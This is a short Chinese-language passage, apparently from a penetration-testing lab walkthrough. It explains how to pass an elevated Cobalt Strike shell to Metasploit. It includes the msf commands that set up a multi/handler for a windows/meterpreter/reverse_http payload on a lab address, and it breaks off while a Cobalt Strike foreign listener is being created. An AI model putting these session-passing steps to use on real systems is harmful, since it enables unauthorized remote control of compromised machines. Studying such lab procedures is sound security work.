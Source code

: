 ![截图](79ca11455532525ec2105778833e1e08.png)

然后我们再将cs提权后的shell派生到msf，用msf搜集内网信息比较方便。

首先msf创建一个handler监听器，监听本地8001端口，用的payload是windows/meterpreter/reverse_http

![截图](86b19478f143d9e607f027ea62f5e88f.png)

```
use exploit/multi/handler
set lhost 192.168.111.128
set lport 8001
set payload windows/meterpreter/reverse_http
run
```

然后cs中新建一个监听器，选择payload为foreign http

![截图](f59b2096517971c214810d6401821473.png)
